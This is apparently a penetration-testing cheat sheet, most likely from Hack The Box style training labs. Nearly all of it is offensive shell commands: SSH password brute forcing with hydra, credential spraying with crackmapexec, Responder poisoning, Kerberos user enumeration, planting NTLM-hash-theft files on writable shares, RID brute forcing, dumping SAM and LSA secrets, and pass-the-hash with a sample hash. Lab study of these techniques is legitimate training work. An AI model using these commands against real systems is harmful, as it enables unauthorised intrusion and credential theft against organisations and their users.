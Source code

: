 ### SSH enumeration
```bash
./ssh-audit.py 10.129.14.132
ssh -v cry0l1t3@10.129.14.132 -o PreferredAuthentications=password
hydra -L user.list -P password.list -u -f ssh://10.129.42.197 -t 4
```
#### Rsync
```bash
nc -nv 127.0.0.1 873
rsync -av --list-only rsync://127.0.0.1/dev
rlogin 10.0.17.2 -l htb-student
rwho
rusers -al 10.0.17.5
```
### WINRM
```bash
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```
### Network poisoning
```bash
responder -I tun0
```
### Extract possible usernames
``` NameSurname, Name.Surname, NamSur, Nam.Sur, NSurname, N.Surname, SurnameName, Surname.Name, SurnameN, Surname.N ```
### Kerbrute
```bash
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.real='test.local', userdb=usernames.txt <ip>
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```
### NTLM Creds
```bash
sudo mount -t cifs -o 'user=pl4int3xt' //10.10.10.100/Department /mnt/sync
ls /mnt/sync -laR
```
[smcacls documentation](https://lists.samba.org/archive/samba-technical/2010-June/071390.html)
```bash
for i in $(ls /mnt/sync); do echo; smbcacls --no-pass //10.10.10.100/Department $i
```
[ntlm theft](https://github.com/Greenwolf/ntlm_theft)
```bash
responder -I tun0
python3 ntlm_theft.py -g all -s 10.10.10.100 -f test
cp test/* /mnt/sync/writable_share 
```
## Brute Forcing User RIDs
```bash
for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
```
## Enumerating with creds
### Extract SAM and LSA
```bash
crackmapexec smb 10.10.110.17 --local-auth -u administrator -p 'Password123!' --sam
crackmapexec smb 10.129.42.198 --local-auth -u user -p password --lsa
```
### PTH
```bash
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```